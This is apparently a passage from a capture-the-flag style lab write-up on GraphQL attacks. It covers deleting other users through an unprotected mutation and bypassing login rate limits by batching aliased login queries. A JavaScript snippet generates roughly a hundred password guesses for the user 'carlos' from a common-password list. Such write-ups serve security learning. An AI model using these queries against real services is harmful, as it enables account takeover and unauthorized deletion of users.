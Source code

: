 ```
query getUser {
    getUser(id: 3) {
        id
        username
    }
}
```

Now we can try to delete other users before carlos and check with getUser if works, then delete carlos.

```graphql
mutation deleteOrganizationUser {
    deleteOrganizationUser(input: {
        id: 3
    }) {
        user {
            id
            username
        }
    }
}
```

# Bypassing GraphQL brute force protections

**Batching attack o aliasing** is a technique to abuse about how the server handler different operations in one time, **sending a lot of queries in one request to avoid limits**.

In this lab, if you try to login three times, you obtain this error:
"You have made too many incorrect login attempts. Please try again in 1 minute(s)."

First, we are going to do the introspection query and visualize the schema. We have getBlogPost and getAllBlogPosts but we're not going to use because we're focus on the login.

If we use the right click in the response > GraphQL > **Save GraphQL queries to sitemap**.

In tab target > Site map we have the graphql with the **queries and mutations**.

Now we have to generate the aliases to send all the queries in the same request. This is a very slow process, you can do some scripting, in this case in Tip tab of the lab appear this code:

```js
copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>` bruteforce$index:login(input:{password: "$password", username: "carlos"}) { token success } `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```
